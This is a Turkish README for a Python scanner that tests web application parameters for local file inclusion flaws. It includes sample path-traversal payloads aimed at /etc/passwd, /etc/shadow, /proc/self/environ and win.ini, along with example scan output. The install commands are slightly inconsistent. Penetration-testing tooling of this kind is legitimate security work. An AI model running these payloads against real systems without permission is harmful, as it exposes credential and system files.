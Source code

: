 
# 🕵️‍♂️ LFI Tarayıcı (Local File Inclusion Vulnerability Scanner)

Bu Python aracı, web uygulamalarında **LFI (Local File Inclusion)** güvenlik açıklarını taramak için geliştirilmiştir. Basit ama etkili bir şekilde belirli bir URL ve parametre üzerinde LFI payload'larını deneyerek zafiyet olup olmadığını kontrol eder.

---

## 🚀 Kurulum

### Gereksinimler
- Python 3.6+
- `requests` ve `colorama` kütüphaneleri

### Kurulum Adımları

```bash

https://github.com/vedattascier/lfi.git
cd lfi
pip install -r requirements.txt
```

---

## ⚙️ Kullanım

```bash
python lfi.py
```

Program çalıştıktan sonra senden şu bilgileri ister:

- 🔗 **Hedef URL** (örn: `http://example.com/page.php`)
- 🧩 **Parametre İsmi** (örn: `file`)
- 📄 **Payload Dosyası** (örn: `lfi_payloads.txt`)

### Örnek:

```bash
python lfi_scanner.py
```

```plaintext
Hedef URL'yi girin: http://example.com/view.php
Parametre adını girin: page
Payload dosyasının adını girin: wordlist.txt
```

---

## 📝 Payload Dosyası Formatı (`wordlist.txt`)

Her satırda bir payload olacak şekilde hazırlanmalıdır. Örnek içerik:

```
../../../../etc/passwd
../../../../../../windows/win.ini
....//....//....//....//etc/shadow
../../../../proc/self/environ
```

---

## 🔍 Örnek Çıktı

```plaintext
[i] Scanning http://example.com/view.php with param 'page'...
[+] Vulnerable: http://example.com/view.php?page=../../../../etc/passwd
[-] Error accessing: http://example.com/view.php?page=....//....//proc/self/environ
```

---

## 🛡️ Güvenlik Notu

Bu araç sadece **eğitim** ve **pentest** amaçlı kullanılmalıdır. İzin almadan bir sisteme uygulamak **yasal suçtur**.

---


